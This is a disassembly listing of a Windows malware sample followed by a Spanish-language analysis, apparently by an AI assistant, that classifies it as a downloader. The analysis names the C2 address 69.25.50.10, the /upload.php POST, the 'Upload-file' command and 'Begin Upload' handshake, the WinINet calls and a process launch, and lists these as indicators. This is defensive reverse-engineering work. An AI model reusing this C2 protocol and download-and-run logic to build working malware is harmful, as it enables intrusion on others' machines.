        00401852 f3 ab           STOSD.REP  ES:EDI
        00401854 8d 85 70        LEA        EAX=>local_f94,[EBP + 0xfffff070]
                 f0 ff ff
        0040185a 89 b5 1c        MOV        dword ptr [EBP + local_e8],ESI
                 ff ff ff
        00401860 50              PUSH       EAX                                              char * _Source for strcat
        00401861 8d 85 70        LEA        EAX=>local_d94,[EBP + 0xfffff270]
                 f2 ff ff
        00401867 50              PUSH       EAX                                              char * _Dest for strcat
        00401868 66 89 9d        MOV        word ptr [EBP + local_e4],BX
                 20 ff ff ff
        0040186f e8 90 03        CALL       MSVCRT.DLL::strcat                               char * strcat(char * _Dest, char
                 00 00
        00401874 83 c4 24        ADD        ESP,0x24
        00401877 33 c0           XOR        EAX,EAX
        00401879 8d bd 71        LEA        EDI=>local_193,[EBP + 0xfffffe71]
                 fe ff ff
        0040187f 88 9d 70        MOV        byte ptr [EBP + local_194],BL
                 fe ff ff
        00401885 6a 1f           PUSH       0x1f
        00401887 59              POP        ECX
        00401888 f3 ab           STOSD.REP  ES:EDI
        0040188a 66 ab           STOSW      ES:EDI
        0040188c aa              STOSB      ES:EDI
        0040188d 8d 85 70        LEA        EAX=>local_194,[EBP + 0xfffffe70]
                 fe ff ff
        00401893 68 80 00        PUSH       0x80                                             UINT uSize for GetWindowsDirecto
                 00 00
        00401898 50              PUSH       EAX                                              LPSTR lpBuffer for GetWindowsDir
        00401899 ff 15 0c        CALL       dword ptr [->KERNEL32.DLL::GetWindowsDirectoryA] = 0000226a
                 20 40 00
        0040189f 8d 85 70        LEA        EAX=>local_194,[EBP + 0xfffffe70]
                 fe ff ff
        004018a5 68 a4 31        PUSH       s_\tasks\_004031a4                               char * _Source for strcat
                 40 00
        004018aa 50              PUSH       EAX                                              char * _Dest for strcat
        004018ab e8 54 03        CALL       MSVCRT.DLL::strcat                               char * strcat(char * _Dest, char
                 00 00
        004018b0 59              POP        ECX
        004018b1 8d 45 84        LEA        EAX=>local_80,[EBP + -0x7c]
        004018b4 59              POP        ECX
        004018b5 50              PUSH       EAX                                              LPPROCESS_INFORMATION lpProcessI
        004018b6 8d 85 f0        LEA        EAX=>local_114,[EBP + 0xfffffef0]
                 fe ff ff
        004018bc 50              PUSH       EAX                                              LPSTARTUPINFOA lpStartupInfo for
        004018bd 8d 85 70        LEA        EAX=>local_194,[EBP + 0xfffffe70]
                 fe ff ff
        004018c3 50              PUSH       EAX                                              LPCSTR lpCurrentDirectory for Cr
        004018c4 53              PUSH       EBX                                              LPVOID lpEnvironment for CreateP
        004018c5 6a 40           PUSH       0x40                                             DWORD dwCreationFlags for Create
        004018c7 56              PUSH       ESI                                              BOOL bInheritHandles for CreateP
        004018c8 53              PUSH       EBX                                              LPSECURITY_ATTRIBUTES lpThreadAt
        004018c9 8d 85 70        LEA        EAX=>local_d94,[EBP + 0xfffff270]
                 f2 ff ff
        004018cf 53              PUSH       EBX                                              LPSECURITY_ATTRIBUTES lpProcessA
        004018d0 50              PUSH       EAX                                              LPSTR lpCommandLine for CreatePr
        004018d1 53              PUSH       EBX                                              LPCSTR lpApplicationName for Cre
        004018d2 ff 15 18        CALL       dword ptr [->KERNEL32.DLL::CreateProcessA]       = 0000229e
                 20 40 00
        004018d8 85 c0           TEST       EAX,EAX
        004018da 0f 84 70        JZ         LAB_00401a50
                 01 00 00
        004018e0 ff 75 88        PUSH       dword ptr [EBP + local_7c]                       HANDLE hObject for CloseHandle
        004018e3 8b 3d 08        MOV        EDI,dword ptr [->KERNEL32.DLL::CloseHandle]      = 0000225c
                 20 40 00
        004018e9 ff d7           CALL       EDI=>KERNEL32.DLL::CloseHandle
        004018eb ff 75 84        PUSH       dword ptr [EBP + local_80]                       HANDLE hObject for CloseHandle
        004018ee ff d7           CALL       EDI=>KERNEL32.DLL::CloseHandle
        004018f0 e9 5b 01        JMP        LAB_00401a50
                 00 00
                             LAB_004018f5                                    XREF[1]:     004017e2(j)
        004018f5 6a 04           PUSH       0x4                                              size_t _MaxCount for _strnicmp
        004018f7 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        004018fd 68 9c 31        PUSH       _Str2_0040319c                                   char * _Str2 for _strnicmp
                 40 00
        00401902 50              PUSH       EAX                                              char * _Str1 for _strnicmp
        00401903 ff d7           CALL       EDI=>MSVCRT.DLL::_strnicmp
        00401905 83 c4 0c        ADD        ESP,0xc
        00401908 85 c0           TEST       EAX,EAX
        0040190a 0f 85 9d        JNZ        LAB_004019ad
                 00 00 00
        00401910 6a 3f           PUSH       0x3f
        00401912 8d bd 71        LEA        EDI=>local_393,[EBP + 0xfffffc71]
                 fc ff ff
        00401918 59              POP        ECX
        00401919 88 9d 70        MOV        byte ptr [EBP + local_394],BL
                 fc ff ff
        0040191f f3 ab           STOSD.REP  ES:EDI
        00401921 66 ab           STOSW      ES:EDI
        00401923 aa              STOSB      ES:EDI
        00401924 8d 85 70        LEA        EAX=>local_394,[EBP + 0xfffffc70]
                 fc ff ff
        0040192a 89 5d fc        MOV        dword ptr [EBP + local_8],EBX
        0040192d 50              PUSH       EAX
        0040192e 8d 45 fc        LEA        EAX=>local_8,[EBP + -0x4]
        00401931 50              PUSH       EAX
        00401932 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        00401938 68 90 31        PUSH       s_%*s_%d_%s_00403190                             char * _Format for sscanf
                 40 00
        0040193d 50              PUSH       EAX                                              char * _Src for sscanf
        0040193e ff 15 8c        CALL       dword ptr [->MSVCRT.DLL::sscanf]                 = 0000246e
                 20 40 00
        00401944 83 c4 10        ADD        ESP,0x10
        00401947 8d 85 70        LEA        EAX=>local_394,[EBP + 0xfffffc70]
                 fc ff ff
        0040194d 8b ce           MOV        ECX,ESI
        0040194f 53              PUSH       EBX
        00401950 68 8c 31        PUSH       DAT_0040318c                                     = 5Ch    \
                 40 00
        00401955 50              PUSH       EAX
        00401956 e8 ee f6        CALL       FUN_00401049                                     int FUN_00401049(char * param_1,
                 ff ff
        0040195b 39 5d fc        CMP        dword ptr [EBP + local_8],EBX
        0040195e 74 31           JZ         LAB_00401991
        00401960 38 9d 70        CMP        byte ptr [EBP + local_394],BL
                 fc ff ff
        00401966 74 29           JZ         LAB_00401991
        00401968 83 f8 ff        CMP        EAX,-0x1
        0040196b 74 24           JZ         LAB_00401991
        0040196d 6a 14           PUSH       0x14
        0040196f 58              POP        EAX
        00401970 39 45 fc        CMP        dword ptr [EBP + local_8],EAX
        00401973 7e 03           JLE        LAB_00401978
        00401975 89 45 fc        MOV        dword ptr [EBP + local_8],EAX
                             LAB_00401978                                    XREF[1]:     00401973(j)
        00401978 ff 75 fc        PUSH       dword ptr [EBP + local_8]
        0040197b 8d 85 70        LEA        EAX=>local_394,[EBP + 0xfffffc70]
                 fc ff ff
        00401981 8b ce           MOV        ECX,ESI
        00401983 50              PUSH       EAX
        00401984 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401987 e8 7a f7        CALL       FUN_00401106                                     bool FUN_00401106(undefined4 par
                 ff ff
        0040198c e9 bf 00        JMP        LAB_00401a50
                 00 00
                             LAB_00401991                                    XREF[6]:     0040195e(j), 00401966(j),
                                                                                          0040196b(j), 00401a16(j),
                                                                                          00401a22(j), 00401a2b(j)
        00401991 68 00 04        PUSH       0x400                                            size_t _Size for memset
                 00 00
        00401996 8d 85 70        LEA        EAX=>local_794,[EBP + 0xfffff870]
                 f8 ff ff
        0040199c 53              PUSH       EBX                                              int _Val for memset
        0040199d 50              PUSH       EAX                                              void * _Dst for memset
        0040199e e8 67 02        CALL       MSVCRT.DLL::memset                               void * memset(void * _Dst, int _
                 00 00
        004019a3 68 64 31        PUSH       s_use_error!_putf_[transpeed]_[fil_00403164      = "use error! putf [transpeed] [
                 40 00
        004019a8 e9 ba 00        JMP        LAB_00401a67
                 00 00
                             LAB_004019ad                                    XREF[1]:     0040190a(j)
        004019ad 6a 04           PUSH       0x4                                              size_t _MaxCount for _strnicmp
        004019af 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        004019b5 68 5c 31        PUSH       _Str2_0040315c                                   char * _Str2 for _strnicmp
                 40 00
        004019ba 50              PUSH       EAX                                              char * _Str1 for _strnicmp
        004019bb ff d7           CALL       EDI=>MSVCRT.DLL::_strnicmp
        004019bd 83 c4 0c        ADD        ESP,0xc
        004019c0 85 c0           TEST       EAX,EAX
        004019c2 0f 85 b3        JNZ        LAB_00401a7b
                 00 00 00
        004019c8 6a 3f           PUSH       0x3f
        004019ca 8d bd 71        LEA        EDI=>local_293,[EBP + 0xfffffd71]
                 fd ff ff
        004019d0 59              POP        ECX
        004019d1 88 9d 70        MOV        byte ptr [EBP + local_294],BL
                 fd ff ff
        004019d7 f3 ab           STOSD.REP  ES:EDI
        004019d9 66 ab           STOSW      ES:EDI
        004019db aa              STOSB      ES:EDI
        004019dc 8d 85 70        LEA        EAX=>local_294,[EBP + 0xfffffd70]
                 fd ff ff
        004019e2 89 5d fc        MOV        dword ptr [EBP + local_8],EBX
        004019e5 50              PUSH       EAX
        004019e6 8d 45 fc        LEA        EAX=>local_8,[EBP + -0x4]
        004019e9 50              PUSH       EAX
        004019ea 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        004019f0 68 90 31        PUSH       s_%*s_%d_%s_00403190                             char * _Format for sscanf
                 40 00
        004019f5 50              PUSH       EAX                                              char * _Src for sscanf
        004019f6 ff 15 8c        CALL       dword ptr [->MSVCRT.DLL::sscanf]                 = 0000246e
                 20 40 00
        004019fc 83 c4 10        ADD        ESP,0x10
        004019ff 8d 85 70        LEA        EAX=>local_294,[EBP + 0xfffffd70]
                 fd ff ff
        00401a05 8b ce           MOV        ECX,ESI
        00401a07 53              PUSH       EBX
        00401a08 68 8c 31        PUSH       DAT_0040318c                                     = 5Ch    \
                 40 00
        00401a0d 50              PUSH       EAX
        00401a0e e8 36 f6        CALL       FUN_00401049                                     int FUN_00401049(char * param_1,
                 ff ff
        00401a13 39 5d fc        CMP        dword ptr [EBP + local_8],EBX
        00401a16 0f 84 75        JZ         LAB_00401991
                 ff ff ff
        00401a1c 38 9d 70        CMP        byte ptr [EBP + local_294],BL
                 fd ff ff
        00401a22 0f 84 69        JZ         LAB_00401991
                 ff ff ff
        00401a28 83 f8 ff        CMP        EAX,-0x1
        00401a2b 0f 84 60        JZ         LAB_00401991
                 ff ff ff
        00401a31 6a 14           PUSH       0x14
        00401a33 58              POP        EAX
        00401a34 39 45 fc        CMP        dword ptr [EBP + local_8],EAX
        00401a37 7e 03           JLE        LAB_00401a3c
        00401a39 89 45 fc        MOV        dword ptr [EBP + local_8],EAX
                             LAB_00401a3c                                    XREF[1]:     00401a37(j)
        00401a3c ff 75 fc        PUSH       dword ptr [EBP + local_8]
        00401a3f 8d 85 70        LEA        EAX=>local_294,[EBP + 0xfffffd70]
                 fd ff ff
        00401a45 8b ce           MOV        ECX,ESI
        00401a47 50              PUSH       EAX
        00401a48 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401a4b e8 ea f8        CALL       FUN_0040133a                                     undefined4 FUN_0040133a(undefine
                 ff ff
                             LAB_00401a50                                    XREF[3]:     004018da(j), 004018f0(j),
                                                                                          0040198c(j)
        00401a50 68 00 04        PUSH       0x400                                            size_t _Size for memset
                 00 00
        00401a55 8d 85 70        LEA        EAX=>local_794,[EBP + 0xfffff870]
                 f8 ff ff
        00401a5b 53              PUSH       EBX                                              int _Val for memset
        00401a5c 50              PUSH       EAX                                              void * _Dst for memset
        00401a5d e8 a8 01        CALL       MSVCRT.DLL::memset                               void * memset(void * _Dst, int _
                 00 00
        00401a62 68 54 31        PUSH       s_Go_on!_00403154                                = "Go on!"
                 40 00
                             LAB_00401a67                                    XREF[2]:     004017c8(j), 004019a8(j)
        00401a67 8d 85 70        LEA        EAX=>local_794,[EBP + 0xfffff870]
                 f8 ff ff
        00401a6d 50              PUSH       EAX                                              char * _Dest for strcpy
        00401a6e e8 8b 01        CALL       MSVCRT.DLL::strcpy                               char * strcpy(char * _Dest, char
                 00 00
        00401a73 83 c4 14        ADD        ESP,0x14
        00401a76 e9 c5 fc        JMP        LAB_00401740
                 ff ff
                             LAB_00401a7b                                    XREF[1]:     004019c2(j)
        00401a7b 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
        00401a7e 3b 45 cc        CMP        EAX,dword ptr [EBP + local_38]
        00401a81 0f 85 3c        JNZ        LAB_004016c3
                 fc ff ff
        00401a87 8d 45 d0        LEA        EAX=>local_34,[EBP + -0x30]
        00401a8a 53              PUSH       EBX                                              LPOVERLAPPED lpOverlapped for Wr
        00401a8b 50              PUSH       EAX                                              LPDWORD lpNumberOfBytesWritten f
        00401a8c 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        00401a92 ff 75 d0        PUSH       dword ptr [EBP + local_34]                       DWORD nNumberOfBytesToWrite for
        00401a95 50              PUSH       EAX                                              LPCVOID lpBuffer for WriteFile
        00401a96 ff 75 e8        PUSH       dword ptr [EBP + local_1c]                       HANDLE hFile for WriteFile
        00401a99 ff 15 04        CALL       dword ptr [->KERNEL32.DLL::WriteFile]            = 00002250
                 20 40 00
        00401a9f 85 c0           TEST       EAX,EAX
        00401aa1 74 39           JZ         LAB_00401adc
        00401aa3 8b 3d a8        MOV        EDI,dword ptr [->MSVCRT.DLL::_strnicmp]          = 00002558
                 20 40 00
        00401aa9 6a 05           PUSH       0x5                                              size_t _MaxCount for _strnicmp
        00401aab 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        00401ab1 68 4c 31        PUSH       s_exit_0040314c                                  char * _Str2 for _strnicmp
                 40 00
        00401ab6 50              PUSH       EAX                                              char * _Str1 for _strnicmp
        00401ab7 ff d7           CALL       EDI=>MSVCRT.DLL::_strnicmp
        00401ab9 83 c4 0c        ADD        ESP,0xc
        00401abc 85 c0           TEST       EAX,EAX
        00401abe 74 7f           JZ         LAB_00401b3f
        00401ac0 6a 05           PUSH       0x5                                              size_t _MaxCount for _strnicmp
        00401ac2 8d 85 70        LEA        EAX=>local_b94,[EBP + 0xfffff470]
                 f4 ff ff
        00401ac8 68 44 31        PUSH       s_exit_00403144                                  char * _Str2 for _strnicmp
                 40 00
        00401acd 50              PUSH       EAX                                              char * _Str1 for _strnicmp
        00401ace ff d7           CALL       EDI=>MSVCRT.DLL::_strnicmp
        00401ad0 83 c4 0c        ADD        ESP,0xc
        00401ad3 85 c0           TEST       EAX,EAX
        00401ad5 74 68           JZ         LAB_00401b3f
        00401ad7 e9 e7 fb        JMP        LAB_004016c3
                 ff ff
                             LAB_00401adc                                    XREF[4]:     0040173a(j), 00401762(j),
                                                                                          0040178e(j), 00401aa1(j)
        00401adc 6a 06           PUSH       0x6
        00401ade 8d 4d f4        LEA        ECX=>local_10,[EBP + -0xc]
        00401ae1 58              POP        EAX
        00401ae2 53              PUSH       EBX                                              LPOVERLAPPED lpOverlapped for Wr
        00401ae3 51              PUSH       ECX                                              LPDWORD lpNumberOfBytesWritten f
        00401ae4 50              PUSH       EAX                                              DWORD nNumberOfBytesToWrite for
        00401ae5 68 44 31        PUSH       s_exit_00403144                                  LPCVOID lpBuffer for WriteFile
                 40 00
        00401aea ff 75 e8        PUSH       dword ptr [EBP + local_1c]                       HANDLE hFile for WriteFile
        00401aed 89 45 f4        MOV        dword ptr [EBP + local_10],EAX
        00401af0 ff 15 04        CALL       dword ptr [->KERNEL32.DLL::WriteFile]            = 00002250
                 20 40 00
        00401af6 ff 75 ec        PUSH       dword ptr [EBP + local_18]                       HANDLE hObject for CloseHandle
        00401af9 8b 35 08        MOV        ESI,dword ptr [->KERNEL32.DLL::CloseHandle]      = 0000225c
                 20 40 00
        00401aff ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b01 ff 75 d8        PUSH       dword ptr [EBP + local_2c]                       HANDLE hObject for CloseHandle
        00401b04 ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b06 ff 75 dc        PUSH       dword ptr [EBP + local_28]                       HANDLE hObject for CloseHandle
        00401b09 ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b0b ff 75 e8        PUSH       dword ptr [EBP + local_1c]                       HANDLE hObject for CloseHandle
        00401b0e ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b10 ff 75 98        PUSH       dword ptr [EBP + local_6c]                       HANDLE hObject for CloseHandle
        00401b13 ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b15 ff 75 94        PUSH       dword ptr [EBP + local_70]                       HANDLE hObject for CloseHandle
        00401b18 ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b1a ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401b1d 8b 35 c4        MOV        ESI,dword ptr [->WININET.DLL::InternetCloseHan   = 00002330
                 20 40 00
        00401b23 ff d6           CALL       ESI=>WININET.DLL::InternetCloseHandle
        00401b25 ff 75 e0        PUSH       dword ptr [EBP + local_24]
        00401b28 ff d6           CALL       ESI=>WININET.DLL::InternetCloseHandle
        00401b2a ff 75 d4        PUSH       dword ptr [EBP + local_30]
        00401b2d ff d6           CALL       ESI=>WININET.DLL::InternetCloseHandle
        00401b2f 68 60 ea        PUSH       0xea60                                           DWORD dwMilliseconds for Sleep
                 00 00
        00401b34 ff 15 00        CALL       dword ptr [->KERNEL32.DLL::Sleep]                = 00002248
                 20 40 00
        00401b3a e9 ca f9        JMP        LAB_00401509
                 ff ff
                             LAB_00401b3f                                    XREF[2]:     00401abe(j), 00401ad5(j)
        00401b3f a1 40 31        MOV        EAX,[DAT_00403140]                               = 00627965h
                 40 00
        00401b44 89 45 f0        MOV        dword ptr [EBP + local_14],EAX
        00401b47 8d 45 f0        LEA        EAX=>local_14,[EBP + -0x10]
        00401b4a 50              PUSH       EAX                                              char * _Str for strlen
        00401b4b e8 90 00        CALL       MSVCRT.DLL::strlen                               size_t strlen(char * _Str)
                 00 00
        00401b50 59              POP        ECX
        00401b51 50              PUSH       EAX
        00401b52 8d 45 f0        LEA        EAX=>local_14,[EBP + -0x10]
        00401b55 50              PUSH       EAX
        00401b56 53              PUSH       EBX
        00401b57 53              PUSH       EBX
        00401b58 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401b5b ff 15 c8        CALL       dword ptr [->WININET.DLL::HttpSendRequestA]      = 0000231c
                 20 40 00
        00401b61 ff 75 ec        PUSH       dword ptr [EBP + local_18]                       HANDLE hObject for CloseHandle
        00401b64 8b 35 08        MOV        ESI,dword ptr [->KERNEL32.DLL::CloseHandle]      = 0000225c
                 20 40 00
        00401b6a ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b6c ff 75 d8        PUSH       dword ptr [EBP + local_2c]                       HANDLE hObject for CloseHandle
        00401b6f ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b71 ff 75 dc        PUSH       dword ptr [EBP + local_28]                       HANDLE hObject for CloseHandle
        00401b74 ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b76 ff 75 e8        PUSH       dword ptr [EBP + local_1c]                       HANDLE hObject for CloseHandle
        00401b79 ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b7b ff 75 98        PUSH       dword ptr [EBP + local_6c]                       HANDLE hObject for CloseHandle
        00401b7e ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b80 ff 75 94        PUSH       dword ptr [EBP + local_70]                       HANDLE hObject for CloseHandle
        00401b83 ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b85 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401b88 8b 35 c4        MOV        ESI,dword ptr [->WININET.DLL::InternetCloseHan   = 00002330
                 20 40 00
        00401b8e ff d6           CALL       ESI=>WININET.DLL::InternetCloseHandle
        00401b90 ff 75 e0        PUSH       dword ptr [EBP + local_24]
        00401b93 ff d6           CALL       ESI=>WININET.DLL::InternetCloseHandle
        00401b95 ff 75 d4        PUSH       dword ptr [EBP + local_30]
        00401b98 eb 13           JMP        LAB_00401bad
                             LAB_00401b9a                                    XREF[1]:     004015d9(j)
        00401b9a ff 75 d4        PUSH       dword ptr [EBP + local_30]
        00401b9d 8b 35 c4        MOV        ESI,dword ptr [->WININET.DLL::InternetCloseHan   = 00002330
                 20 40 00
        00401ba3 ff d6           CALL       ESI=>WININET.DLL::InternetCloseHandle
        00401ba5 ff 75 e0        PUSH       dword ptr [EBP + local_24]
        00401ba8 ff d6           CALL       ESI=>WININET.DLL::InternetCloseHandle
        00401baa ff 75 f8        PUSH       dword ptr [EBP + local_c]
                             LAB_00401bad                                    XREF[1]:     00401b98(j)
        00401bad ff d6           CALL       ESI=>WININET.DLL::InternetCloseHandle
        00401baf 5f              POP        EDI
        00401bb0 5e              POP        ESI
        00401bb1 32 c0           XOR        AL,AL
        00401bb3 5b              POP        EBX
        00401bb4 c9              LEAVE
        00401bb5 c3              RET

Tras analizar el conjunto de funciones que has compartido (FUN_00401000, FUN_0040103E, FUN_00401049, FUN_0040107C, FUN_0040133A), puedo darte el flujo completo del comportamiento del malware desde el arranque hasta la descarga remota de un archivo.
🧠 Función principal: FUN_00401000

Esta es la función de arranque del malware.
🔹 Flujo simplificado:

    EAX ← LAB_00401D88
    → Dirección usada como parámetro para una inicialización en FUN_00401BC0.

    Llama a FUN_00401BC0
    → Posible inicialización (Winsock, entorno, etc.).

    Prepara conexión remota

        Usa IP "69.25.50.10".

        Llama a FUN_0040103E: guarda esa dirección en una estructura.

    Crea estructura de comunicación ([EBP-0x10]).

    Llama a FUN_004014F4
    → Controlador principal del comportamiento, incluyendo conexión C2 y descarga.

📦 FUN_004014F4 – Controlador del comportamiento malicioso

Aunque no has pegado todo su contenido, ya vimos que:

    Llama a FUN_0040133A, que descarga un archivo del servidor y lo guarda en disco.

    Usa funciones como FUN_0040107C y FUN_00401049 para leer y parsear la respuesta HTTP.

    Usa InternetReadFile y HttpSendRequestA para toda la comunicación.

📂 FUN_0040133A – Descarga de archivo del servidor C2

Como vimos en detalle antes:

    Hace un POST con un comando "Upload-file<name>******<chunk_size>".

    Espera "Begin Upload".

    Lee el tamaño del archivo con atoi(...).

    Reserva memoria y descarga el archivo con InternetReadFile(...).

    Lo guarda a disco con fwrite(...).

🧠 Función auxiliar FUN_00401049

Hace lo siguiente:

    Busca "<head>" y "</head>" en una cadena,

    Si ambos están presentes, extrae el contenido entre ellos,

    Se usa para parsear las respuestas del servidor, probablemente HTTP manipuladas.

📌 En resumen: ¿qué hace este malware?
Componente	Función	Qué hace
FUN_00401000	Main	Prepara entorno y lanza la lógica maliciosa
FUN_0040103E	Init struct	Guarda IP remota en una estructura
FUN_004014F4	Orquestador	Controla el ciclo de comunicación
FUN_0040133A	Downloader	Descarga un archivo desde C2 y lo guarda
FUN_0040107C	HTTP Read	Lee respuesta HTTP con contenido entre <head> y </head>
FUN_00401049	Head parser	Encuentra posiciones de cabeceras HTML
🧨 Conclusión

Este malware actúa como un downloader: se conecta al C2 "69.25.50.10", envía comandos tipo "Upload-file", espera confirmación con "Begin Upload" y descarga el archivo binario en memoria antes de escribirlo en disco.

🧠 FUN_004014F4 – Lógica principal del downloader
🔍 Propósito:

Coordina la comunicación con el servidor C2, interpreta comandos, y descarga archivos remotos si el servidor lo indica.
📜 Flujo completo
1. Inicialización

lea eax, [ebp+local_810]
mov ecx, eax
call FUN_0040103E

→ Guarda la IP remota "69.25.50.10" o su equivalente en una estructura.
2. InternetOpenA y InternetConnectA

InternetOpenA("Mozilla/4.0...", ...)
InternetConnectA("69.25.50.10", puerto=80, ...)

→ Establece una sesión de WinINet con user-agent "Mozilla/4.0...".
3. Petición con HttpOpenRequestA

HttpOpenRequestA("POST", "/upload.php", ...)

→ Prepara una petición POST a /upload.php.
4. Comando: “Upload-file...”

sprintf(buf, "Upload-file%s******%d", filename, chunk_size);
HttpSendRequestA(...);

→ Envía un comando "Upload-file<nombre>******<tamaño>".
5. Respuesta del servidor

FUN_0040107C(...) → lee cuerpo HTML entre `<head>` y `</head>`
FUN_00401049(...) → localiza las cabeceras

→ Si la respuesta contiene "Begin Upload", el malware procede.
6. Lectura del tamaño del archivo

atoi(buf) → tamaño = S
operator_new(S + 1)

→ Reserva memoria dinámica con new.
7. Descarga por bloques

InternetReadFile(..., chunk_size)

→ Usa InternetReadFile en un bucle hasta descargar todo el contenido remoto.
8. Guardar a disco

fopen(nombre, "wb")
fwrite(buffer, 1, tamaño, file)
fclose(file)

→ Escribe el archivo descargado al disco con el nombre original.
9. Liberación de memoria

operator_delete(buffer)

📦 Conclusión técnica

Esta función convierte al malware en un downloader pasivo: se conecta al servidor "69.25.50.10", le envía un mensaje "Upload-file...", espera una respuesta "Begin Upload" y, si la recibe, descarga y guarda un binario.
🔐 Indicadores IOC
Componente	Valor
IP remota	69.25.50.10
Ruta HTTP	/upload.php
User-Agent	"Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
Comando	"Upload-file%s******%d"
Cabecera de sincronización	"Begin Upload"
Técnica	WinINet + buffer parsing

